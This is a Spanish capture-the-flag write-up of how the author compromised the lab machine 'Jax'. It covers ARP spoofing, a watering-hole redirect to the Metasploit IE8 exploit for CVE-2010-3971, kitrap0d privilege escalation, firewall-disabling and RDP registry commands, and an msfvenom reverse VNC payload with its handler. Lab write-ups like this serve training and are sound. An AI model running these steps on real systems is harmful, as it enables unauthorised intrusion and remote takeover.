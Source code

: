# iHackLabs - Hackplayers 2018 CTF - JAX

### Descripcion

En este CTF nos encontramos en un laboratorio del estilo OSCP con una conexión 
VPN para cada participante, el laboratorio se compone de 4 maquinas:
```
        +----------+  +----------+  +----------+  +----------+
        |  Cisco   |  |  Josie   |  |   Jax    |  |  Sammy   |
        |          |  |          |  |          |  |          |
        |10.x.0.150|  |10.x.0.151|  |10.x.0.152|  |10.x.0.153|
        +-----+----+  +---+------+  +--------+-+  +-----+----+
              ^           ^                  ^          ^
              |           |    +---------+   |          |
              |           +----+   VPN   +---+          |
              |                |         |              |
              +----------------+10.x.0.x +--------------+
                               +---------+
```
En este caso voy a contar como he resuelto la maquina Jax, tanto el acceso de
Administrador, como la parte de exploiting. 

### Búsqueda de Información

Comenzamos escaneando la maquina Jax, lanzamos un Nmap y observamos el puerto 80
abierto con un servidor IIS 7.5. Realizamos las tareas de enumeración web para
localizar posibles vectores vulnerables. Tras un exhaustivo reconocimiento 
llegamos a la conclusión de que no hay nada que podamos aprovechar en la 
parte web. Al no ver nada decidimos lanzar un wireshark para analizar el 
trafico de red. 

Tras un rato analizando el trafico decidimos hacer un ARP Spoofing para ver si
logramos interceptar alguna petición de la maquina .152. Después de la espera
encontramos en una de las tramas una petición web del servidor .152 al .153
```
                   +-----------+       +-----------+
                   |    Jax    |       |   Sammy   |
                   |           +------->           |
                   |10.x.0.152 |       | 10.x.0.153|
                   +-----------+       +-----------+
                      GET /wordpress/cepheus.html
```

Esta conexión se realiza desde Jax a Sammy que anteriormente había sido
vulnerada, con lo cual accedemos al archivo /var/log/httpd-access.log para ver 
las peticiones que esta realizando al servidor.
```
root@Sammy:/var/log # cat httpd-access.log

10.x.0.152 - - [24/Jan/2018:06:34:54 +0000] "GET /wordpress/cepheus.html 
HTTP/1.1" 304 - "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; 
Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)"
```
Si accedemos al archivo que esta solicitando el servidor nos encontramos con un
"Hola Mundo". Tras analizar el User-Agent nos percatamos de que la petición se
esta realizando desde un navegador Internet Explorer 8.0, proporcionando 
información que puede sernos de utilidad.

### Análisis de la vulnerabilidad

Buscando información sobre exploits públicos para Internet Explorer 8.0
damos con el exploit que se adapta al entorno que vamos a explotar. 

Se trata del CVE-2010-3971, un User-After-free en la función 
CSharedStyleSheet::Notify en el parser de CSS dentro de la librería mshtml.dll,
usado en IE6, IE7 y IE8 que permite ejecutar código. 

Tras analizar la vulnerabilidad, buscamos una PoC publica, localizamos 3, 
la PoC original del researcher que encontró el fallo, que produce un DoS. 
Un exploit de ejecución de código escrito en ruby y el tercero un modulo 
para metasploit también para ejecución de código.

### Explotación

Tras realizar varias pruebas con las PoC's publicas utilizamos el modulo de
metasploit para realizar la explotación. Accedemos al fichero cepheus.html para
modificar el "Hola Mundo" por una redirección a nuestro servidor donde montamos
con metasploit un servidor web con la PoC.
```
                          CVE-2010-3971
             +---------------------------------------+
             |                                       |
        +----v-----+      +----------+     +---------v--+
        |   Jax    |      |  Sammy   |     |LocalMachine|
        |          |      |          |     |            |
        |10.x.0.152|      |10.x.0.153|     |10.x.0.202  |
        +----+-----+      +--^-----+-+     +------+-----+
             |               |     |              ^
             +---------------^     |              |
       GET /wordpress/cepheus.html |              |
                                   |              |
                                   |              |
                                   +--------------+
                                       Redirect
                                    
```
```
use exploit/windows/browser/ms11_003_ie_css_import
```
Tras configurar las opciones de la reversa y las opciones del exploit como el
path procedemos a lanzarlo, la petición la realiza Jax a Sammy cada 5 min. por
lo que si el exploit falla tenemos que esperar otros 5 minutos para volver a
intentarlo.

```
10.x.0.152	ms11_003_ie_css_import - Received request for "/"
```

Tras recibir la shell con meterpreter ya tenemos acceso al servidor con el
usuario Ihacklabs, recorremos los directorios del sistema hasta llegar al
Escritorio donde tenemos el archivo Flag.txt con lo cual ya tenemos la flag de
acceso Admin del servidor, ahora tenemos que encontrar la flag de exploiting...

Tras un rato de búsqueda en la maquina localizamos un archivo .ova en descargas
y también nos percatamos que tiene instalado VirtualBox con lo cual nos dan a
entender que tenemos que acceder por RDP al sistema para poder acceder al
Virtualbox y continuar con el reto. Llegados a este punto procedemos a elevar
privilegios en el sistema para poder acceder a directorios que no tenemos
permisos o cualquier otra tarea que requiera permisos de NT SYSTEM,
con otro exploit para metasploit en este caso usamos:
```
use exploit/windows/local/ms10_015_kitrap0d
```
Tras elevar permisos lo que hacemos es desactivar el firewall
```
netsh advfirewall set allprofiles state off
```
Y levantar el servicio de RDP a través del registro del sistema.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" 
/v fDenyTSConnections /t REG_DWORD /d 0 /f
```
Después de lanzar los comandos nos damos cuenta que el RDP no esta activo, con
lo cual revisamos la versión de Windows y vemos que es un Windows 7 Home por lo
tanto no vamos a tener RDP, tenemos que buscar una alternativa en este caso
utilizamos otra herramienta de metasploit, VNCInject para lograr conectar por
escritorio remoto a la maquina.

Generamos el payload con msfvenom para subirlo a la maquina y así lograr
conectar por escritorio remoto
```
msfvenom -p windows/vncinject/reverse_tcp lhost= lport= -f exe > vnc.exe
```
Ponemos el handler a la escucha y configuramos el payload sin olvidarnos de
configurar la opción para que nos deje utilizar el ratón.
```
use multi/handler
set payload windows/vncinject/reverse_tcp
```
Tras ejecutar el vnc.exe que hemos creado anteriormente con msfvenom recibimos
en el handler la conexión del servidor y nos muestra el escritorio.

Ahora abrimos el Virtualbox y allí nos encontramos una maquina montada que se
corresponde con la .ova encontrada anteriormente

Tras iniciar la maquina virtual vemos que somos capaces de acceder al grub con
lo que sin mirar mucho mas utilizamos la técnica del grub [init=/bin/bash] 
y accedemos como root al filesystem de la maquina virtual, vamos a la carpeta
/home/reto/flag.txt y encontramos la flag de Exploiting. Por fin hemos acabado
con todas las maquinas :D, aunque tengo las sospechas que esta ultima maquina 
no se hacia así...

Borja
